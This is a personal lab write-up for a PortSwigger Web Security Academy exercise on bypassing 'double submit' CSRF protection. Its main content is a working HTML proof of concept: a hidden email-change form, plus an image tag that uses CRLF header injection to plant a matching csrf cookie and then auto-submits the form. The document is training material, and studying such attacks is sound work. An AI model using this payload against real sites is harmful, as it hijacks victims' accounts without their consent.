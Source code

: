 This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

# Vuln assessment

Find the cookie-setting functionality:

![[cookie-setting.png]]


# Exploitation

Follow these exploitation steps:

1. Inject the cookie (this time is an arbitrary value of the same length as the original cookie value)
2. Execute the csrf making sure the cookie value and the form parameter match:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2700a30459b23c8065bc9f001800fd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test5&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="umqmNECOMwMfLSqBMQskLfq0XkQF0hzE" />
      <input type="submit" value="Submit request" />
    </form>
   <img src="https://0a2700a30459b23c8065bc9f001800fd.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=umqmNECOMwMfLSqBMQskLfq0XkQF0hzE%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```